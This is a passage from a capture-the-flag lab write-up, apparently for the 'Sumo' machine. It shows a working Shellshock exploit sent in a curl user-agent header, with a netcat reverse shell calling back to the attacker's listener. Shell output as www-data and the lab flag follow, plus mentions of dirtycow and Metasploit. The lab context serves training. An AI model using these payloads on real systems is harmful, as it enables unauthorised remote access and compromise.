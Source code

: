 Now its working so lets try something else →

So for reverese shell I tried the nc script →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ curl -H "user-agent: () { :;}; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.195 4444 >/tmp/f'" \                            
http://192.168.233.87/cgi-bin/test
```
{: .nolineno}

In response I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.233.87] 43584
/bin/sh: 0: can not access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python3: not found
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/usr/lib/cgi-bin$
```
{: .nolineno}

---

## SHELL ➡️

Now Lets dig deeper in Shell →

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ cat local.txt
cat local.txt
50e71eeb52701d49e85e7969eb4dd10c
www-data@ubuntu:/usr/lib/cgi-bin$
```
{: .nolineno}

Now I tried different methods to execute the kernel Exploit of `dirtycow` but gcc throws an error each time so lets use another method to breach this machine lets take a help of metasploit as it is more stable and fast →

lets search the shellshock in metasploit →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%201.png)
